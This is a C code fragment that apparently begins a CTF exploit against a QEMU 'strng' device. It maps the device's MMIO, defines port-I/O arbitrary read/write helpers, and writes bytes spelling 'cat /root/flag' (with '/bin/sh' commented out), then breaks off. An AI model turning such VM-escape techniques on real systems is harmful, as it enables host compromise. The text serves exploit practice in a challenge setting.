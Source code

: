 ```
void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value,addr);
}


uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr);
}

uint32_t pmio_arbread(uint32_t offset)
{
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}

void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main(int argc, char *argv[])
{
    
    // Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);
 

    mmio_write(8,0x20746163);
    mmio_write(12,0x6f6f722f);
    mmio_write(16,0x6c662f74);
    mmio_write(20,0x006761);
    
    /*
    //2f62696e2f7368
    mmio_write(8,0x6e69622f);
    mmio_write(12,0x0068732f);
    */
    // Open and map I/O memory for the strng device
    if (iopl(3) !=0 )
        die("I/O permission is not enough");


```